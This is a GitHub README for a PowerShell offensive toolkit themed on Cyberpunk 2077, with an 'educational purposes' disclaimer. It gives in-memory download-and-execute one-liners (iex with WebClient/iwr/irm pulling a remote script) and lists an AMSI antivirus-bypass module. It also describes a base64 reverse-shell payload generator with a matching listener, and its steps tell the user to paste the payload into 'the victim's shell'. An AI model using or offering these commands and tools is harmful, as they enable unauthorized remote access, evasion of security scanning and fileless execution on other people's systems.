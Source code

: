 <div align="center" style="display:flex;">
  <img src="https://github.com/h0ru/antiarasaka/assets/117091833/c5e7af4a-d7b7-484e-be27-ea9fbed97749" width="800">
</div>

- - - 

> [!Warning]
> **This program was written and designed for educational purposes, with features associated with the world of Cyberpunk 2077.** \
> **The project's author does not take responsibility for any use of the tool and maintains its use strictly for educational purposes.**

- - -

> [!NOTE] 
> **This project explores ideas that have already been developed in my previous projects, but it was created to optimize and also motivate me to create something larger.**\
> **Being a fan of the Cyberpunk 2077 story, I sought inspiration in "something" that could counter Arasaka. So here is the idea: AntiArasaka T00l K1t.**

- - -

### What will you find here?

```
aka.ps1
├──AntiArasaka-Alias               # Similar to Get-Alias
├──AntiArasaka-Help                # Similar to Get-Help
├──LOLBins Finder             
|  └──AntiArasaka-Binaries         # Based on LOLBAS Projetct
├──Generator RevShell & Listener           
|  ├──AntiArasaka-Listener         # Native powershell listener
|  └──AntiArasaka-Payload          # PowerShell paylaod base64 encoded
├──AMSI-Reaper
|  └──AntiArasaka-Reaper           # Based on my project AMSI-Reaper
└──PSWEEPX
   └──AntiArasaka-Sweep            # Based on my project PSWEEPX from icmp-quickhacks
```

- - -

### How to use?

> [!TIP]
> #### _Less DISK, more RAM_
```
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1')
```
```
iex (iwr https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1)
```
```
iex (irm https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1)
```

> [!TIP]
> #### _Use the aliases_
```
        Command                          Alias
        -------                          ------
        AntiArasaka-Alias          ->     aaa
        AntiArasaka-Help           ->     aah
        AntiArasaka-Binaries       ->     aab
        AntiArasaka-Listener       ->     aal
        AntiArasaka-Payload        ->     aap
        AntiArasaka-Reaper         ->     aar
        AntiArasaka-Sweep          ->     aas
```

> [!TIP]
> #### _What is the purpose of the AntiArasaka-Binaries?_
- Based on the concept of the 198 exploits cataloged at: https://lolbas-project.github.io, I wanted to create a small validator using PowerShell, just a way to verify what we have in the current system that can be used as LOLBINS.
- Good references to LOLBINS: [The LOLBAS Project](https://mitre-attack.github.io/attack-navigator/#layerURL=https://lolbas-project.github.io/mitre_attack_navigator_layer.json)
- How to use AntiArasaka-Binarie.:
```
AntiArasaka-Binarie
AntiArasaka-Binarie -Filter .exe, .dll, .ps1
AntiArasaka-Binarie -Filter .vbs
AntiArasaka-Binarie -Name cmd.exe
AntiArasaka-Binarie -Name .bat
AntiArasaka-Binarie -Name winrm.vbs
```

> [!TIP]
> #### _How to use AntiArasaka-Listener & AntiArasaka-Payload_
- Attention to these errors:
![image](https://github.com/h0ru/antiarasaka/assets/117091833/63e1ed73-2629-4a2d-87a0-ec7b388d5e34)
![image](https://github.com/h0ru/antiarasaka/assets/117091833/75af46c3-5875-4986-8a73-32b1e849fc49)
```
1. aap -i 192.168.1.1 -p 443 #Payload
2. [+] Payload copied to clipboard! Use Ctrl+V to paste and execute.
3. aal -i 192.168.1.3 -p 443 #Listener
4. Paste your payload into the victim's shell (Consider hosting the shell on a file and requesting it remotely)
```

- - -

> [!IMPORTANT]
> - [❗] More updates will come and Anti-Arasaka will have more features!
> - [❗] Did you like the idea and the work? Show your support with a ⭐ to stay updated.
> - [❗] If you're interested in helping or sharing your opinion, reach out to me through public channels or on Discord at **ph4nt0m.zip**.

- - - 
